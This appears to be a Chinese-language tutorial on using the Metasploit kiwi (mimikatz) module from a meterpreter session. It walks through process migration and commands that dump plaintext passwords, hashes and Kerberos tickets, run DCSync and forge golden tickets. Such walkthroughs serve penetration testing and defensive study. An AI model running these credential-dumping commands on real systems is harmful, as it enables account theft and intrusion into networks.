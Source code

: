 ## 一、简介

```php
	MSF中的mimikatz模块，可以列举出系统的各种凭证，以及执行一些mimikatz相关的命令。目前，该模块已更新位功能更全的kiwi模块。
```



## 二、条件

### 1、system权限

```php
# system
	meterpreter > getuid
```

![image-20220602214154610](C:\Users\Toby\AppData\Roaming\Typora\typora-user-images\image-20220602214154610.png)

### 2、进程迁移

```php
# 解释
	kiwi模块同时支持32位和64位的系统，但是该模块默认是加载32位的系统。如果目标系统是64位的，则必须先查看系统进程列表，然后将meterpreter进程迁移到一个64位程序的进程中，才能加载kiwi并且查看系统明文。
```

```php
# 1、查看系统
	meterpreter > sysinfo
```

![image-20220602214111002](C:\Users\Toby\AppData\Roaming\Typora\typora-user-images\image-20220602214111002.png)

```php
# 2、查看进程
	meterpreter > ps
```

![image-20220602214239502](C:\Users\Toby\AppData\Roaming\Typora\typora-user-images\image-20220602214239502.png)

```php
# 3、进程迁移
	meterpreter > migrate 472
```

![image-20220602214259075](C:\Users\Toby\AppData\Roaming\Typora\typora-user-images\image-20220602214259075.png)



## 三、用法

### 1、加载kiwi模块

```
	meterpreter > load kiwi
```

![image-20220602214809430](C:\Users\Toby\AppData\Roaming\Typora\typora-user-images\image-20220602214809430.png)

### 2、查看kiwi模块的使用

```php
	meterpreter > help kiwi
```

![image-20220602214841068](C:\Users\Toby\AppData\Roaming\Typora\typora-user-images\image-20220602214841068.png)

### 3、常用命令

```php
# creds_all	列举系统中的明文密码
```

![image-20220602215929777](C:\Users\Toby\AppData\Roaming\Typora\typora-user-images\image-20220602215929777.png)

```php
# kiwi_cmd	该模块可以让我们使用mimikatz的全部功能，该命令后面接 mimikatz.exe 的命令
	kiwi_cmd sekurlsa::logonpasswords	列举系统中的明文密码
```

![image-20220602215929777](C:\Users\Toby\AppData\Roaming\Typora\typora-user-images\image-20220602215929777.png)

### 4、其他命令

```php
	creds_all：列举所有凭据
	creds_kerberos：列举所有kerberos凭据
	creds_msv：列举所有msv凭据
	creds_ssp：列举所有ssp凭据
	creds_tspkg：列举所有tspkg凭据
	creds_wdigest：列举所有wdigest凭据
	dcsync：通过DCSync检索用户帐户信息
	dcsync_ntlm：通过DCSync检索用户帐户NTLM散列、SID和RID
	golden_ticket_create：创建黄金票据
	kerberos_ticket_list：列举kerberos票据
	kerberos_ticket_purge：清除kerberos票据
	kerberos_ticket_use：使用kerberos票据
	kiwi_cmd：执行mimikatz的命令，后面接mimikatz.exe的命令
	lsa_dump_sam：dump出lsa的SAM
	lsa_dump_secrets：dump出lsa的密文
	password_change：修改密码
	wifi_list：列出当前用户的wifi配置文件
	wifi_list_shared：列出共享wifi配置文件/编码
```